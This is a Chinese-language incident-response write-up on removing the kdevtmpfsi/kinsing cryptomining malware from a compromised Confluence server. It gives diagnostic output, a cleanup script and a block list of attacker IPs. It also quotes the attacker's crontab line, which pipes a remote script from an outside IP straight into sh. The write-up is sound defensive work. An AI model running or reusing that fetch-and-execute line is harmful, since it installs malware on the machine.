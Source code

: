 ```yaml
---
title: 利用 Confluence 漏洞被挂挖矿木马 kdevtmpfsi 后处理方案
date: 2021-09-03
---
```



## 现象

服务器的 CPU 突然被异常进程 `kdevtmpfsi` 占满


## 检查

- 查看异常进程

``` bash
# ps -ef | grep kdevtmpfsi
root      7770 14501  0 23:35 pts/1    00:00:00 grep --color=auto kdevtmpfsi
conflue+ 10346     1 99 13:03 ?        5-05:38:24 /tmp/kdevtmpfsi

# systemctl status 10346
● session-364.scope - Session 364 of user root
   Loaded: loaded (/run/systemd/system/session-364.scope; static; vendor preset: disabled)
  Drop-In: /run/systemd/system/session-364.scope.d
           └─50-After-systemd-logind\x2eservice.conf, 50-After-systemd-user-sessions\x2eservice.conf, 50-Description.conf, 50-SendSIGHUP.conf, 50-Slice.conf, 50-TasksMax.conf
   Active: active (abandoned) since Tue 2021-01-26 02:42:54 EST; 7 months 5 days ago
   CGroup: /user.slice/user-0.slice/session-364.scope
           ├─ 9963 /tmp/kinsing         # Confluence 关联异常进程
           ├─10346 /tmp/kdevtmpfsi      # Confluence 关联异常进程
           ├─14586 /opt/atlassian/confluence/jre//bin/java ...
           └─14851 /opt/atlassian/confluence/jre/bin/java ...

# ll /tmp
...
-rwxr-x---. 1 confluence confluence  3930448 Sep  2 01:48 kdevtmpfsi      # 异常文件 
-rwxrwxrwx. 1 confluence confluence 14643200 Sep  2 01:46 kinsing         # 异常文件
-rwxrwxrwx. 1 confluence confluence    26800 Sep  1 13:02 libsystem.so    # 异常文件
-rw-------. 1 confluence confluence        0 Sep  1 13:02 linux.lock      # 异常文件
...
```

- 异常进程访问了异常/国外 IP

``` bash
# netstat –natp
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
...
tcp        0      0 xx.xx.xx.xx:41302       95.181.179.88:80        ESTABLISHED 10346/kdevtmpfsi   # 95.181.179.88 为国外 IP
...
```

- 异常定时任务

``` bash
# crontab -l -u confluence
* * * * * curl http://195.3.146.118/unk.sh | sh > /dev/null 2>&1
```


## 处理

- 删除异常定时任务
- 删除异常进程
- 设置文件夹访问权限

上述操作可参考以下脚本：

``` bash
crontab -r -u confluence
ps -aux | grep kinsing |grep -v grep |awk '{print $2}'
ps -aux | grep kdevtmpfsi |grep -v grep |awk '{print $2}'
ps -aux | grep kinsing |grep -v grep |awk '{print $11}'
ps -aux | grep kdevtmpfsi |grep -v grep |awk '{print $11}'
ps -aux | grep kinsing |grep -v grep |awk  '{print "rm -rf " $11}' |sh
ps -aux | grep kdevtmpfsi |grep -v grep |awk  '{print "rm -rf " $11}' |sh
ps -aux | grep kinsing |grep -v grep |awk  '{print "kill -9 " $2}' |sh
ps -aux | grep kdevtmpfsi |grep -v grep |awk  '{print "kill -9 " $2}' |sh

rm -rf /var/tmp/kinsing
rm -rf /tmp/libsystem.so
rm -rf /tmp/linux.lock

chmod -R 700 /tmp
chmod -R 700 /var/tmp

find / -name kdevtmpfsi
find / -name kinsing
```

- 禁止服务器访问异常 IP，参考：

```
195.3.146.118
142.44.191.122
185.92.74.42
217.12.221.244
93.189.43.3
185.154.53.140
```

- 关闭 Confluence 外网访问


## 参考

https://www.jianshu.com/p/9699251ad1d7

http://www.pangxieke.com/linux/virus-of-kdevtmpfsi.html

https://paper.seebug.org/884/

https://www.cnblogs.com/zhangjiahao/p/12634930.html

https://www.jianshu.com/p/60bbe86a7b33

https://guanjia.qq.com/news/n3/2581.html

https://www.cnblogs.com/hack404/p/11464890.html
